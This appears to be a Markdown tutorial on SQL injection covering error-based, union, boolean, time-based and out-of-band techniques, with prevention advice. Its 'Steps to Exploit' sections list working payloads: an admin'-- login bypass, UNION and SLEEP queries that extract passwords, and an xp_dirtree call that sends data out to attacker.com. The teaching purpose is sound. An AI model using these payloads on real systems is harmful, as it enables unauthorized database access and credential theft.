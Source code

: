 # SQL Injection (SQLi)

## CONTENTS
1. [Prerequisites](#1-prerequisites)
2. [What is SQL Injection?](#2-what-is-sql-injection)
3. [Impact of SQL Injection Vulnerabilities](#3-impact-of-sql-injection-vulnerabilities)
4. [Common Types of SQL Injection](#4-common-types-of-sql-injection)
   - [In-Band SQL Injection](#41-in-band-sql-injection)
     - [Error-Based SQL Injection](#411-error-based-sql-injection)
     - [Union-Based SQL Injection](#412-union-based-sql-injection)
   - [Inferential (Blind) SQL Injection](#42-inferential-blind-sql-injection)
     - [Boolean-Based SQL Injection](#421-boolean-based-sql-injection)
     - [Time-Based SQL Injection](#422-time-based-sql-injection)
   - [Out-of-Band SQL Injection](#43-out-of-band-sql-injection)
5. [Prevention of SQL Injection Vulnerabilities](#5-prevention-of-sql-injection-vulnerabilities)
6. [References](#6-references)

---

## 1. Prerequisites

### What is SQL Injection?
SQL Injection (SQLi) is a vulnerability where an attacker interferes with the SQL queries an application makes to its database. By manipulating input fields or URLs, attackers can access, modify, or delete sensitive data in the database.

**Example**:
- Input: `admin'--`
- Query: `SELECT * FROM users WHERE username = 'admin'--' AND password = '';`
- Result: Logs in as admin without needing the password.

---

## 2. What is SQL Injection?

SQL Injection occurs when attackers inject malicious SQL code into user input fields or URLs to execute unauthorized database queries. This can lead to data theft, modification, or even remote code execution.

**Example Scenario**:
1. User logs into a web application with `username` and `password`.
2. The attacker injects SQL code into the username field: `admin'--`.
3. The application executes the query, logging the attacker in as admin.

---

## 3. Impact of SQL Injection Vulnerabilities

1. **Confidentiality**:
   - Unauthorized access to sensitive data such as usernames, passwords, and credit card numbers.
2. **Integrity**:
   - Attackers can modify or corrupt database records.
3. **Availability**:
   - SQL Injection can be used to delete critical data, rendering the application unusable.
4. **Remote Code Execution**:
   - Advanced SQL Injection attacks can lead to execution of arbitrary commands on the database server.

---

## 4. Common Types of SQL Injection

### 4.1. In-Band SQL Injection

**Theory**  
In-band SQLi occurs when the attacker uses the same communication channel to launch the attack and gather the results.

**Categories**:
- **Error-Based SQL Injection**
- **Union-Based SQL Injection**

#### 4.1.1. Error-Based SQL Injection

**Theory**  
Error-based SQLi forces the database to generate error messages, revealing information that helps refine the injection.

**Steps to Exploit**:
1. Submit SQL-specific characters (`'`, `"`) and look for errors.
2. Example:
   - Input: `www.example.com/app?id='`
   - Output: `You have an error in your SQL syntax...`

---

#### 4.1.2. Union-Based SQL Injection

**Theory**  
Union-based SQLi leverages the `UNION` operator to combine results of multiple queries into a single output.

**Steps to Exploit**:
1. Identify the number of columns:
   - Incrementally inject `ORDER BY` clauses until an error occurs.
   - Example: `ORDER BY 1--`, `ORDER BY 2--`, `ORDER BY 3--`.
2. Find columns with useful data types:
   - Inject payloads to test each column:  
     `' UNION SELECT 'a',NULL--`  
     `' UNION SELECT NULL,'a'--`

**Example Payload**:
`www.example.com/app?id=1 UNION SELECT username, password FROM users--`

---

### 4.2. Inferential (Blind) SQL Injection

**Theory**  
Blind SQLi occurs when there is no direct data transfer, but the attacker can infer information by observing the application's behavior.

**Categories**:
- **Boolean-Based SQL Injection**
- **Time-Based SQL Injection**

#### 4.2.1. Boolean-Based SQL Injection

**Theory**  
Uses Boolean conditions to infer data by observing application responses.

**Steps to Exploit**:
1. Submit a payload that evaluates to `TRUE`:
   - `www.example.com/app?id=1 AND 1=1`.
2. Submit a payload that evaluates to `FALSE`:
   - `www.example.com/app?id=1 AND 1=2`.

**Advanced Payload**:
`www.example.com/app?id=1 AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a'`

---

#### 4.2.2. Time-Based SQL Injection

**Theory**  
Relies on database delays to infer information.

**Steps to Exploit**:
1. Submit a payload to pause execution:
   - `www.example.com/app?id=1 AND IF(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a',SLEEP(5),0)`.
2. Observe response times:
   - If delayed, the condition is true.

---

### 4.3. Out-of-Band SQL Injection

**Theory**  
Out-of-Band SQLi uses external communication (e.g., DNS, HTTP) to exfiltrate data. It is less common but effective when other techniques fail.

**Example Payload**:
`'; exec master..xp_dirtree '//attacker.com/a'--`

---

## 5. Prevention of SQL Injection Vulnerabilities

### Primary Defenses

1. **Prepared Statements (Parameterized Queries)**:
   - Always use placeholders for user inputs.

   **Example**:  
   `query = "SELECT * FROM users WHERE username = ? AND password = ?"`

2. **Stored Procedures**:
   - Encapsulate queries in stored procedures, ensuring parameterized calls.

3. **Whitelist Input Validation**:
   - Define acceptable inputs and reject everything else.

4. **Escaping User Input**:
   - Escape special characters in inputs as a last resort.

---

### Additional Defenses

1. **Enforce Least Privilege**:
   - Use minimal database privileges for the application.
   - Disable unused database functions.

2. **Regularly Apply Security Patches**:
   - Ensure the database is updated with vendor patches.

---

## 6. References

- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection)  
- [OWASP – SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)  
- [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)  
- [PentestMonkey – SQL Injection](http://pentestmonkey.net/category/cheat-sheet/sql-injection)  
